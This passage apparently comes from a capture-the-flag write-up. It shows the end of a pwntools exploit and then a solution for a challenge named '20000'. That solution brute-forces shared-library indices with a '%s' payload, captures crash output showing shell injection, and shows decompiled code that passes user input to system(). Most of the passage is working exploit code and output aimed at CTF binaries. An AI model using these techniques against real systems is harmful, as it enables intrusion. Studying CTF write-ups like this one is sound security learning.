 ```python
                                  # Trigger Compress->func_ptr, trigger cat_flag()
y.send( p32( len( p ) ) )
y.send( p )

y.interactive()
```

### 20000
> limbo, tens
>

```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random

binary = "./20000"
context.binary = binary
elf = ELF(binary)
if __name__ == '__main__':
  i=20000
  while 1:
    print i
    r = process("20000")
    r.recv(1000)
    r.sendline(str(i))
    r.recv(1000)
    r.sendline("%s"*0x200)
    r.wait()
    c = r.poll()
    if c !=0:
      r.interactive()
    r.close()
    i-=1
```



```
17394
[+] Starting local process './20000': pid 118780
[*] Process './20000' stopped with exit code -6 (SIGABRT) (pid 118780)
[*] Switching to interactive mode
sh: 1: %s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s@: not found
*** stack smashing detected ***: <unknown> terminated
```

find 17394

lib_17394.so
```
    read(0, buf, 0x32uLL);
    v3(buf, buf);
    v4(buf);
    sprintf(s, "%s 2 > /dev/null", buf);
    system(s);
```
